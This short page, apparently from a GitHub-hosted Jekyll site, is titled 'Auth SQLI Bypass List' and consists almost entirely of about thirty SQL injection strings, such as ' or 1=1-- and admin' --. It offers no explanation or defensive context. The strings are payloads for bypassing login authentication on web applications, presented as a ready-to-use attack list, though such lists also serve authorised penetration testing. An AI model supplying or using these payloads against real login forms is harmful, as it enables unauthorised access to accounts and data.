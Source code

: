```yaml
---
title: /_posts
layout: page
permalink: /_posts
---
```


# Auth SQLI Bypass List

<pre>
  '="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or 1=1 limit 1 -- -+ 
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true-- 
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
")) or (("x"))=(("x
1=1 or 1=1--
or 1=1#
or 1=1/*
admin' --
admin''--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
</pre>
